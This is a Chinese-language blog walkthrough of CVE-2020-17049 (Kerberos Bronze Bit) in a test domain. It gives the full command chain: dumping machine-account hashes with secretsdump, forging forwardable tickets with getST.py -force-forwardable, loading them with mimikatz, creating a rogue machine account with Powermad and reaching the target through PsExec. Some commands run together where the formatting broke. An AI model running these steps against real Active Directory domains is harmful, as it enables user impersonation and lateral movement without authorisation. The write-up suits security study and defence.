# CVE-2020-17049 Kerberos Bronze Bit 攻击 - 渗透测试中心 - 博客园

> 原文：[`www.cnblogs.com/backlion/p/14108773.html`](https://www.cnblogs.com/backlion/p/14108773.html)

### 0x01   前言

在 getST.py（https://github.com/SecureAuthCorp/impacket/blob/master/examples/）中添加了一个新的 PR-force-forwardable 标识。启用该标识后，程序将执行以下步骤（新添加的内容以粗体显示）： 

1.  程序将使用通过-hash 或-aesKey 参数提供的密钥，获得一个 TGT 作为命令行指定的服务主体
2.  程序将通过其 TGT 执行 S4U2self 交换，以获得通过-impersonate 参数指定的用户的服务主体的服务票据
3.  程序将使用步骤 1 中使用的服务主体的相同密钥来解密服务票据
4.  程序将编辑服务票据，将“ forwardable”标识设置为 1。
5.  程序将使用服务主体的密钥重新加密编辑后的服务票据。
6.  程序将与服务票证及其 TGT 进行 S4U2proxy 交换，以获得作为通过-spn 参数指定的服务的模拟用户的服务票据
7.  该程序将输出结果作为服务票据，该服务票据可用于对目标服务进行身份验证并模拟目标用户。

通过编辑票据并将其 forwardable bit 强制设置为 1，该程序可以模拟作为“受保护的用户”组成员或使用“帐户敏感且无法委派（Account is sensitive and cannot be delegated"）”设置配置的用户。这也允许该程序与为“仅 Kerberos”约束委派配置的服务一起使用。在下面的示例中，“Service1”允许对“Service2”执行约束委派，而 User2 被配置为“账号敏感且无法委派（sensitive and cannot delegat）”。如果没有该-force-forwardable 标识，则 S4U2proxy 交换将失败，因为 S4U2self 返回的票据不可转发。使用新的标识，程序将成功执行并生成可用于模拟 User2 的服务票据。可以通过 mimikatz 加载该票据，并立即以 User2 身份访问 Service2。

### 0x02  示例攻击 1

在这个场景中，我们将看到利用该漏洞将如何使绕过“信任此用户以仅委派给指定服务–仅使用 Kerberos”保护，并模拟受委派保护的用户。

#### 1.环境配置

测试域（test.local）含有 3 台运行 Windows Server 2019 版本的服务器，但未[修复该漏洞](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-17049)。将在 Service1 服务器上以 User1 的身份发起攻击。并对 User2 账号发起攻击，因为 Service2 服务器具有管理访问权限。将为所有 Kerberos 票证与域控制器（DC）交互。在 DC 上，对 Service1 进行配置，以使其可以执行约束委派，而无需将协议转换为 Service2 上。这样可以确保满足攻击路径第 3 步的条件。如果在 Active Directory GUI 中设置了此配置，将如下所示：在 DC 上还需要更新 User2 帐户，以防止其受约束委派。帐户可以配置为“帐户敏感且无法委派”属性。该帐户也可以成为“受保护的用户”组的成员。这些配置更改中的一个或两个都是等效的：使用“帐户敏感且无法委派”属性配置 User2：  

*   将 User2 添加到“受保护的用户”组中： 

#### 2.执行攻击

退出域控制器，并以 User1 身份登录 Service1 服务器上。以获取初始攻击据点（攻击路径中的第 1 步）。启动 PowerShell 会话，并确认 User1 和 Service1 当前无法在其自己的授权下访问 Service2。命令：whoamils \\service2.test.local\c$.\PSTools\PsExec64.exe \\service2.test.local\ powershell.exe 执行：已确认 User1 无法直接访问 Service2。继续进行攻击路径的第 2 步：获取 Service1 的哈希值。在这个场景中，将使用 Impacket 的[secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)来获取 Service1 计算机帐户的 AES256-CTS-HMAC-SHA1-96 值和 LM:NTLM 哈希值。命令：python .\impacket\examples\secretsdump.py 'test/user1:<user1_password>@Service1.test.local'执行：在获得必要的哈希之后，将首先尝试在没有-force-forwardable 标识的情况下执行 getST.py 程序。无法执行成功。如上所述，S4U2self 交换仍将服务票据返回给 User2 的 Service1，但是由于服务的委派限制和用户不受委派的保护，该票据的 Forwardable 标识没有被设置。这会导致在 S4U2proxy 交换中将票据用作认证时出错命令：.\impacket\examples\getST.py  -spn   cifs/Service2.test.local   -impersonate   User2   -hashes <LM:NTLM hash>     -aesKey <AES hash>    test.local/Service1 执行：运行漏洞利用程序，这是攻击路径的第 4 步。我们将重复前面的命令，但是这次包括-force-forwardable 命令行参数命令：.\impacket\examples\getST.py   -spn   cifs/Service2.test.local   -impersonate  User2   -hashes <LM:NTLM hash>   -aesKey <AES hash>   test.local/Service1   -force-forwardable

```
getST.py -spn cifs/Service2.test.local -impersonate User2 -hashes aad3b435b51404eeaad3b435b51404ee:7c1673f58e7794c77dead3174b58b68f -aesKey 4ffe0c458ef7196e4991229b0e1c4a11129282afb117b02dc2f38f0312fc84b4 test.local/Service1 -force-forwardable 
```

执行：命令成功输出：Service ticket from S4U2self flags: 00000000101000010000000000000000Service ticket from S4U2self is not forwardableForcing the service ticket to be forwardableService ticket flags after modification: 01000000101000010000000000000000Service ticket from S4U2self now is forwardable 通过包含-force-forwardable 标志，该漏洞利用会自动执行，并将从 S4U2self 交换接收的服务票据转换为可转发票据。这是通过使用 Service1 的哈希值解密票据，将标志值中的第二位从 0 更改为 1，然后重新加密票据。此可转发票据在 S4U2proxy 交换中发送，Service2 作为 User2 的服务票证被返回并写入到 User2.ccache 的磁盘上。接下来，将使用 Mimikatz 将服务票据加载到票据缓存中以供使用。加载后，将看到 Mimikatz 确认这是 User2 访问 Service2 的 cifs 服务的有效票据。命令：.\mimikatz\mimikatz.exe "kerberos::ptc User2.ccache" exit 或者

```
mimikatz(commandline) # kerberos::ptc User2.ccache
```

执行：将服务票据添加到缓存后，现在就可以像访问 User2 一样访问 Service2 了。我们拥有 User2 在 Service2 上的所有权限。我们将使用[Mark Russinovich](https://twitter.com/markrussinovich)的[PSExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)在[Service2](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)服务器上获取 PowerShell 会话，并运行一些命令。这是攻击路径的最后一步。命令：ls \\service2.test.local\c$.\PSTools\PsExec64.exe \\service2.test.local\ powershell.exewhoamihostname 执行：

### 0x03 示例攻击 2

#### 1.环境配置

我们将继续使用上一个示例中的环境，并进行一些修改。目标 User2 帐户可以保留其配置为“受保护的用户”成员的身份，或使用“帐户敏感且无法委派”属性来保持其配置首先，删除 Service1 的委派权限。连接到 DC 并使用“不信任此计算机进行委派”配置 Service1  编辑 Service2 计算机对象，授予 User1 写入权限。当我们直接向 User1 用户授予权限时，用户通常将通过特权组的成员身份获得对一个或多个 AD 对象的写权限。用户不一定需要是域管理员。

#### 2.执行攻击

退出域控制器，并以 User1 身份登录 Service1 服务器。以获取初始攻击据点（攻击路径中的第 1 步）。如果从第一个示例中继续攻击，确保清除本地 Kerberos 票据缓存。清除缓存的最有效方法就是重新启动 Service1。与前面的示例不同，此攻击不会利用 Service1 和 Service2 之间的任何委派信任关系。在将 Service1 配置为“不信任此计算机进行委派（Do trust This computer for delegation）”后，此信任关系不再存在。我们需要与 Service2 建立一个新的委派关系，这次是一个全新的服务。为了在环境中创建新服务，我们将使用 Kevin Robertson 的[Powermad](https://github.com/Kevin-Robertson/Powermad)创建一个新的计算机帐户。这不需要提升账号的权限，默认情况下，域中的任何用户都可以使用。我们将计算机帐户命名为“AttackerService”，并提供一个任意密码如：“AttackerServicePassword”命令：Import-Module .\Powermad\powermad.ps1New-MachineAccount -MachineAccount AttackerService -Password $(ConvertTo-SecureString 'AttackerServicePassword' -AsPlainText -Force)执行：由于我们选择了新机器帐户的密码，因此我们可以使用 Mimikatz 轻松计算出相应的密码哈希。这将完成攻击路径的步骤 2。命令：.\mimikatz\mimikatz.exe "kerberos::hash /password:AttackerServicePassword /user:AttackerService /domain:test.local" exit 执行：让我们使用 PowerShell Active Directory 模块检查我们新创建的机器帐户。由于该模块尚不可用，因此我们将安装相应的功能，导入该模块，然后检查我们新创建的计算机帐户。命令：Install-WindowsFeature RSAT-AD-PowerShellImport-Module ActiveDirectoryGet-ADComputer AttackerService 执行：在确认机器帐户的存在后，我们可以在 Service2 和 AttackerService 之间建立受约束的委派信任关系。因为 User1（我们的受控立足点帐户）对 Service2 对象具有写权限，所以我们可以将 AttackerService 添加到 Service2 的 PrincipalsAllowedToDelegateToAccount 列表中。这将在 Service2 上建立基于资源的约束委派，从 AttackerService 接受约束委派。完成此步骤后，我们就满足了攻击路径第 3 步的条件。命令：Set-ADComputer Service2 -PrincipalsAllowedToDelegateToAccount AttackerService$Get-ADComputer Service2 -Properties PrincipalsAllowedToDelegateToAccount 执行：我们准备继续执行攻击路径的第 4 步并执行漏洞利用。我们将使用与上一个示例相同的命令，但是这次指定 AttackerService 而不是 Service1，并且使用 Mimikatz 计算哈希值。当在命令中包含-force-forwardable 标志时，我们将看到与上一个示例相同的结果。执行漏洞利用，设置可转发标志，并将作为 User2 的 Service2 的服务票证写入到 User2.ccache 的磁盘上。命令：python .\impacket\examples\getST.py -spn cifs/Service2.test.local -impersonate User2 -hashes 830f8df592f48bc036ac79a2bb8036c5:830f8df592f48bc036ac79a2bb8036c5 -aesKey 2a62271bdc6226c1106c1ed8dcb554cbf46fb99dda304c472569218c125d9ffc test.local/AttackerService -force-forwardableet-ADComputer Service2 -PrincipalsAllowedToDelegateToAccount AttackerService$执行：现在，我们可以简单地重复前面例子中的最后命令。通过使用 Mimikatz 将服务票据加载到我们的本地 Kerberos 票据缓存中，我们将为攻击路径的第 5 步做准备。然后，我们将通过与 Service2 进行交互（模拟 User2）来执行步骤 5 命令：.\mimikatz\mimikatz.exe "kerberos::ptc User2.ccache" exit | Out-Nullls \\service2.test.local\c$.\PSTools\PsExec64.exe \\service2.test.local\ powershell.exewhoamihostname 执行：